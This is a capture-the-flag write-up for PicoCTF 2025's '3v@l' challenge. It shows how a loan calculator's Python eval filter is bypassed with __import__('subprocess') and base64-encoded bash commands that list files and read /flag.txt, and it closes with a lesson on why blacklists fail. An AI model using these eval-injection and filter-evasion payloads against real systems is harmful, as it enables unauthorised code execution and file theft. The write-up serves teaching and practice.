





# CTF Writeup: 3v@l (PicoCTF 2025)

Description of the challenge: ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Relevant hint: The flag file is /flag.txt

---

Let's first look at the website and it's HTML. We input `5*5` and we get `25` as expected.

<div style="display: flex; gap: 10px;">
  
  
</div>

The HTML reveals interesting information: Some words / functions are blacklisted and there is a regex used to filter the (numeric) input. 


Since I am not crazy about regex, I let an LLM do the work for me. If we trust ChatGPT, the regex is:
```
1. 0x[0-9A-Fa-f]+
  Matches hexadecimal numbers starting with 0x.
  Example: 0xFF, 0x1a2b.
2. \\u[0-9A-Fa-f]{4}
  Matches Unicode escape sequences.
  \u followed by exactly 4 hex digits.
  Example: \u0041 (which is "A").
3. %[0-9A-Fa-f]{2}
  Matches URL-encoded values.
  % followed by 2 hex digits.
  Example: %20 (space), %2F (slash).
4. \.[A-Za-z0-9]{1,3}\b
  Matches a dot followed by 1–3 alphanumeric characters, then a word boundary.
  Designed to catch file extensions like .py, .exe, .sh.
  Example: .py, .txt.
5. [\\\/]
  Matches a backslash (\) or forward slash (/).
  Useful to detect paths or escape sequences.
  Example: /etc/passwd, C:\Windows.
6. \.\.
  Matches two dots literally (..).
  Prevents directory traversal attacks.
  Example: ../../etc/passwd.
```
So, we are quite restricted in what we can input. Normally, the `eval` function is used to evaluate a string as (python) code. However, in this case, the input is filtered by the regex, which makes is a bit harder to do RCE. If you remember my last writeup, I used Python's built in functions to import a module and use it to execute code.

Maybe, we can also do this here, since we can use the `__import__` function to import a module and use it to execute code. It is NOT blocked by the regex... Do you see the problem with blacklisting??

If this works, we still have another problem: We can't use `ls` and `cat` to read the flag. But... maybe we can hide them in plain sight?

Surely we can just try to base64 encode the command and then decode it in the a shell?

```
__import__("subprocess").check_output( ["bash", "-c", "$(echo 'bHM=' | base64 --decode)"],
    text=True)
``` 
This will get the job done. We import the `subprocess` module, check the output of the command `ls` (which is `bHM=`inb64) and decode the base64 encoded string. That way, the shell can execute the command without the blacklist catching it.


Great, this works! Now, we should be able to read the flag, which is at `/flag.txt`. So, we hide `cat /flag.txt` as `Y2F0IC9mbGFnLnR4dA==` and read the flag!

```
__import__("subprocess").check_output(["bash", "-c", "$(echo 'Y2F0IC9mbGFnLnR4dA==' | base64 --decode)"],text=True)
```



So, what did we learn here? Blacklisting is oftentimes not a good idea. It is easy to forget something, like in our case, the `__import__` function. Also, we can use base64 encoding to hide commands from the blacklist. Hence, blacklisting really didn't work here, at all. 